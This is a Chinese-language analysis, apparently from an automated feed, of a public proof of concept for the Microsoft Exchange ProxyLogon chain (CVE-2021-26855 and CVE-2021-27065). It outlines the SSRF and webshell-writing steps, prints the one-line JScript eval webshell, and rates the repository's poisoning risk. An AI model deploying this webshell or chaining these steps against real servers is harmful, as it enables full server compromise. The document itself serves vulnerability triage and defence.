 ## CVE-2021-26855 & CVE-2021-27065 - Microsoft Exchange Server RCE

**漏洞编号:** CVE-2021-26855

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Microsoft Exchange Server

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** Microsoft Exchange Server 2013 Cumulative Update 21, 2013 Cumulative Update 22, 2013 Cumulative Update 23, 2016 Cumulative Update 8, 2016 Cumulative Update 9, 2016 Cumulative Update 10, 2016 Cumulative Update 11, 2016 Cumulative Update 12, 2016 Cumulative Update 13, 2016 Cumulative Update 14, 2016 Cumulative Update 15, 2016 Cumulative Update 16, 2016 Cumulative Update 17, 2016 Cumulative Update 18, 2016 Cumulative Update 19, 2019 Cumulative Update 1, 2019 Cumulative Update 2, 2019 Cumulative Update 3, 2019 Cumulative Update 4, 2019 Cumulative Update 5, 2019 Cumulative Update 6, 2019 Cumulative Update 7, 2019 Cumulative Update 8

**利用条件:** 需要能够访问目标 Exchange 服务器的网络端口 (通常是443)。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞利用链包括 CVE-2021-26855 (SSRF) 和 CVE-2021-27065 (不安全的反序列化导致RCE)。

**利用方式：**

1.  **SSRF (CVE-2021-26855):** 利用服务器端请求伪造漏洞，攻击者可以发送任意HTTP请求并伪装成Exchange服务器进行身份验证。POC代码首先发送一个NTLM协商请求到`/rpc/`端点，利用返回的`WWW-Authenticate`头中的信息来获取目标Exchange服务器的计算机名和域名。
2.  **RCE (CVE-2021-27065):** 利用获取的计算机名，结合一个已知的邮箱地址格式，构造一个包含`LegacyDN`的请求，发送到`/ecp/baba.js`，最终通过写入webshell来实现远程代码执行。其中，`baba.js`是一个占位符，攻击者可以通过修改这个值，上传任意的webshell。

**有效性：**

根据提供的漏洞信息、搜索结果以及POC代码，可以判断此POC代码是有效的，该漏洞利用是公开的，影响范围广泛。搜索结果也表明该漏洞已被广泛利用。

**投毒风险：**

代码主要功能是利用漏洞，但存在潜在的投毒风险。风险点在于：

*   **Webshell 内容：** Webshell的内容（`<script language="JScript" runat="server">function Page_Load(){eval(Request["babanb"],"unsafe");}</script>`）是固定的，攻击者可能会修改这个内容，植入恶意代码，或者植入更加隐蔽的后门。目前是直接在ecp目录下写了baba.js的文件,比较容易被发现。
*   **依赖项风险：**虽然代码量少，但仍然可能引入有安全风险的第三方库，虽然这里没有体现。
*  **邮件用户列表:** 代码中使用了一个邮件用户列表进行尝试。这个列表可能被修改，用于针对特定目标进行攻击，或者用于搜集敏感信息。

虽然存在风险，但整体代码逻辑较为清晰，风险较低。投毒风险评估为10%。

**项目地址:** [ssrsec/Microsoft-Exchange-RCE](https://github.com/ssrsec/Microsoft-Exchange-RCE)

**漏洞详情:** [CVE-2021-26855](https://nvd.nist.gov/vuln/detail/CVE-2021-26855)